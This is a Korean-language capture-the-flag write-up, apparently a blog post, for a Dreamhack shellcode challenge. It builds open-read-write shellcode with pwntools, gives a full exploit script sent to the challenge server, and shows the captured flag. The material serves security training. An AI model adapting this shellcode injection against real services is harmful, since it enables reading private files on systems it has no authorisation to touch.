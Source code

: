 ![](https://velog.velcdn.com/images/silvergun8291/post/29a54698-f366-4dae-929f-2f1678458352/image.png)

문제를 보면 flag를 출력하는 쉘 코드를 작성해야 하는데, execve 시스템 콜을 사용할 수 없습니다.

그래서 강의에서처럼 orw 쉘 코드를 작성해서 문제를 풀어야 합니다.

<br>

```c
// orw
int fd = open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL);
read(fd, buf, 0x30);
write(1, buf, 0x30);
```

위에 코드처럼 open-read-write를 하면 되는데, pwntools에 쉘 코드를 작성해주는 함수인 shellcraft()가 있습니다.
 
<br>

shellcraft() 함수를 이용해서 쉘 코드를 작성해보면

```python
# 쉘 코드는 환경에 따라 영향을 받기 때문에, 먼저 아키텍처 정보를 x86-64로 지정해줍니다.
context.arch = "amd64"
# open할 flag 파일 path
path = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(path)	# open("/home/shell_basic/flag_name_is_loooooong")
# open() 함수 결과는 rax 레지스터에 저장됩니다. → fd = rax
shellcode += shellcraft.read('rax', 'rsp', 0x30)	# read(fd, buf, 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)	# write(stdout, buf, 0x30)
shellcode = asm(shellcode)	# shellcode를 기계어로 변환하여 대입
```

<br>

전체 익스플로잇 코드를 작성해보면

```python
from pwn import *

p = remote("host1.dreamhack.games", 20000)

# 쉘 코드는 환경에 따라 영향을 받기 때문에, 먼저 아키텍처 정보를 x86-64로 지정해줍니다.
context.arch = "amd64"
# open할 flag 파일 path
path = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(path)	# open("/home/shell_basic/flag_name_is_loooooong")
# open() 함수 결과는 rax 레지스터에 저장된다. → fd = rax
shellcode += shellcraft.read('rax', 'rsp', 0x30)	# read(fd, buf, 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)	# write(stdout, buf, 0x30)
shellcode = asm(shellcode)	# shellcode를 기계어로 변환

payload = shellcode    # payload = shellcode
p.sendlineafter("shellcode: ", payload)    # "shellcode: "가 출력되면 payload + '\n'을 입력
print(p.recv(0x30))    # p가 출력하는 데이터를 0x30 Byte 까지 받아서 출력
```

<br> 

익스플로잇 코드를 실행시켜보면

```bash
$ python3 shell.py
[+] Opening connection to host1.dreamhack.games on port 20000: Done
b'DH{ca562d7cf1db6c55cb11c4ec350a3c0b}\nong\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Closed connection to host1.dreamhack.games port 20000
```

플래그가 성공적으로 출력되었습니다.
